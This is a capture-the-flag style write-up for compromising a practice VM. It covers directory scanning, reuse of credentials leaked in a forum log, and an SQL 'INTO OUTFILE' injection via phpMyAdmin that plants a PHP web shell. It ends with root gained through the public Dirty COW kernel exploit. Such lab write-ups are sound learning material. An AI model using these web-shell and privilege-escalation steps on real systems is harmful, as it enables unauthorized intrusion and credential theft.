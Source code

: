 -------------------------------------------------------------------------------

# The following method describes a Race Condition Privilege Escalation

-------------------------------------------------------------------------------

## First we need to find the IP address of the VM

* Refer to writeup1

##Secondly we are looking for credentials.

* We use a software call Drib to scrap some of the most common url of the website.

```
git clone https://github.com/v0re/dirb.git
./dirb https://[YOUR IP]/ wordlists/common.txt

---- Scanning URL: https://10.12.1.150/ ----
+ https://10.12.1.150/cgi-bin/ (CODE:403|SIZE:288)
==> DIRECTORY: https://10.12.1.150/forum/
==> DIRECTORY: https://10.12.1.150/phpmyadmin/
+ https://10.12.1.150/server-status (CODE:403|SIZE:293)
==> DIRECTORY: https://10.12.1.150/webmail/
```
### Forum

* After sneaking around and read all the forum post, we find a clue on the post "Probleme login ?" url = https://10.12.1.150/forum/index.php?id=6

* If your look for ```Failed password``` your will find one where the user is ``` !q\]Ej?*5K5cy*AJ``` and we think that the user who tried to login make a mistake between are password and login

URL

* The post was made by lmezard (Laurie Mezard)

* Conclution we have one of the password of lmezard.

### Webmail

* On the webmail we have a login form, and we just find a password in the forum section so we decided to give it a try.

URL

* After several attempts the combination was
* Login: ```laurie@borntosec.net```
* Password: ```!q\]Ej?*5K5cy*AJ```

* When we logged in , we find a email with the subject ```DB Access```

URL

* Login: ```root```
* Password: ```Fg-'kKXBj87E:aJ$```
* we really suspect in the access for a DB

### Phpmyadmin

* We tried the credentials of the email to login phpmyadmin and it worcks :)
* After some research on the web we stumble on this [aritcle](http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2)
* The injection sql we are looking for is:
```select "<?php $output = shell_exec('cat /home/LOOKATME/password'); echo $output  ?>" into outfile "/var/www/forum/templates_c/endTest0.php"```
* Copy past this line and go to to => https://10.12.1.150/phpmyadmin/index.php on the sql tab
* After this step your just need to go to https://10.12.1.150/forum/templates_c/endTest0.php
* You will find ```lmezard:G!@M6f4Eatau{sF"```
* Login: ```lmezard```
* Password: ```G!@M6f4Eatau{sF"```

## Use the credentials

* Now we got the password of the server, we can try to log on the FTP service
* ftp [YOUR-IP-ADDRESS]
* login with  ```lmezard``` ```G!@M6f4Eatau{sF"```
* get the fun file, see example bellow:

```ftp> ls
229 Entering Extended Passive Mode (|||25027|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp> get fun
local: fun remote: fun
229 Entering Extended Passive Mode (|||7488|).
150 Opening BINARY mode data connection for fun (808960 bytes).
100% |****************************************************************************************************************************************|   790 KiB  127.07 MiB/s    00:00 ETA
226 Transfer complete.
808960 bytes received in 00:00 (120.03 MiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||44244|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp>```

## Using the fun file

* Refer to writeup1, step 2
* ssh login: laurie / 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

## ssh connection
* use  ``ssh laurie@10.12.1.150`` add the password when it's ask

## Race Condition Privilege Escalation
* YES!!!! we are on the serveur ! know we need to get information about the os
* kernel verions : ```uname -r``` => 3.2.0-91-generic-pae
* Distrubition name and verisons ```cat /etc/*-release``` => Ubuntu, 12.04

* After having information on what we where working on we did some research on [EXPLOIT DATABASE](https://www.exploit-db.com)
* We find the "Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)"
* go to https://www.exploit-db.com/exploits/40839/ and Copy the script
* ```gcc -pthread dirty.c -o dirty -lcrypt && ./dirty```
* add a password, example: 12345
* ```su firefart``` use your password

#GG Your root !
